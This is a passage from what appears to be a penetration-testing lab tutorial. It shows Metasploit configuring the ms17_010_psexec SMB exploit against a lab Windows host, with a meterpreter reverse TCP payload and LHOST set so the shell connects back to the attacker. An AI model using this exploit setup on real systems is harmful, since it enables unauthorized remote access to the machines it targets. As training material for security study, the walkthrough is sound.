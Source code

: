 ```shell-session
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Finally, since we are about to use a TCP-based reverse shell (`/windows/meterpreter/reverse_tcp`) we need to specify to which IP address it needs to connect to in order to establish a connection. Therefore, we need to set `LHOST` to our own IP address like following:

#### MSF - LHOST Specification

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > setg LHOST 10.10.14.15

LHOSTS => 10.10.14.15


msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

```